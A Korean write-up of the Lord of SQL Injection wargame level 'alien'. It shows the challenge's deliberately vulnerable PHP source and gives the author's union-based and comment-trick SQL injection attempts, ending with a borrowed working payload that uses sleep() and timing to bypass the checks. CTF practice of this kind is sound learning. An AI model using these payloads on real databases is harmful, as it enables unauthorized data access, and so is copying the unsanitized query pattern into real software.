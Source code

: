 ```yaml
---
title : "LOS Lv.32 alien (풀이 봄..)"
categories : [Wargame, rubiya]
tags: [풀이 봄]
---
```


## alien
<hr style="border-top: 1px solid;"><br>

```php
query : select id from prob_alien where no=

query2 : select id from prob_alien where no=''

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

동일한 쿼리에서 admin을 뽑아야 되고 또 뽑으면 안되고.. 이게 무슨 ?

우선 해봄 그냥.

<br>

```php
query : select id from prob_alien where no=1 && 0 || id=0x61646D696E
```

<br>

입력값을 줬을 때, sandbox1이 뜸. -> id에 admin이 없다.

따라서 admin 값을 줌.

<br>

```php
query : select id from prob_alien where no=1 && 0 union select 0x61646D696E
```

<br>

그럼 이제 sandbox2가 뜸. 

?.. 막막하다..

일단 query2애서도 정상적으로 작동할 수 있도록 쿼리를 짜보면 다음과 같음.
: ```?no=0 union select 0x61646D696E %23' union select 0x61646D696E %23```

<br>

```php
query : select id from prob_alien where no=0 union select 0x61646D696E #' union select 0x61646D696E #

query2 : select id from prob_alien where no='0 union select 0x61646D696E #' union select 0x61646D696E #'

sandbox2
```

<br>

걍 풀이 봄..
: <a href="https://blog.limelee.xyz/entry/LOS-alien?category=711778" target="_blank">blog.limelee.xyz/entry/LOS-alien?category=711778</a>

<br>

```php
0 union select concat(replace(sleep(1),0,'a'),replace(second(now())%2,0,'dmin'))#' union select insert(@c,instr(@c,'a'),5,@c:='admin') #

?no=0 union select concat(replace(sleep(1),0x30,0x61),replace(second(now())%2,0,0x646d696e))%23' union select insert(@c,instr(@c,'a'),5,@c:=0x61646d696e) %23
```

<br>

phpmyadmin으로 할 때와 wsl로 mysql 접속해서 하는게 결과가 다름.. wsl로 접속해서 하는 법 익혀두기..

<br><br>
<hr style="border: 2px solid;">
<br><br>

